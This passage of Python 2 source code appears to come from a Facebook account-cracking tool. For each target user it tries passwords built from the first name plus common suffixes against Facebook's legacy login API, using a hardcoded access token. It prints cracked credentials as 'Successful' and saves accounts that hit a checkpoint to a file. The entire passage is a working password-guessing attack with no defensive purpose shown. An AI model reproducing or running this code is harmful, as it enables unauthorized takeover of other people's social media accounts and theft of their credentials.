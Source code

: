 					cek.write(user+"|"+pass1+"\n")

					cek.close()

					cekpoint.append(user+pass1)

				else:

					pass2 = b['first_name']+'Ali123'

					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

					q = json.load(data)

					if 'access_token' in q:

						print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

						oks.append(user+pass2)

					else:

						if 'www.facebook.com' in q["error_msg"]:

							print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass2

							cek = open("out/checkpoint.txt", "a")

							cek.write(user+"|"+pass2+"\n")

							cek.close()

							cekpoint.append(user+pass2)

						else:

							pass3 = b['first_name'] + '987654'

							data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass3)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")

							q = json.load(data)

							if 'access_token' in q:

								print '\x1b[1;96m[\x1b[1;92mSuccessful\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

								oks.append(user+pass3)

							else:

								if 'www.facebook.com' in q["error_msg"]:

									print '\x1b[1;96m[\x1b[1;93mCheckpoint\x1b[1;96m]\x1b[1;97m ' + user + ' \x1b[1;96m|\x1b[1;97m ' + pass3

									cek = open("out/checkpoint.txt", "a")
